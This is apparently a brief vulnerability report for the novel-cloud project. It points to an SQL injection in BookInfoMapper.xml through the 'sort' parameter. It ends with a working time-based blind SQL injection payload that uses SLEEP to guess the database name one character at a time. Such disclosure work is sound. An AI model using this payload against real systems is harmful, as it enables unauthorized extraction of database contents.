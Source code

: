 I discovered an SQL injection vulnerability in this project that is identical to this onehttps://github.com/mapl3miss/novel-SQLi/blob/main/novelCMS-sqli.md

`novel-cloud-master/novel-book/novel-book-service/src/main/resources/mapper/BookInfoMapper.xml`

![QQ_1744449298736](https://fc04db.oss-cn-hangzhou.aliyuncs.com/image/202504121719289.png)

source class：condition

![QQ_1744449641259](https://fc04db.oss-cn-hangzhou.aliyuncs.com/image/202504121720500.png)

prove：

sort=(IF(SUBSTRING(DATABASE(),1,1)%3d'a',+SLEEP(5),+1))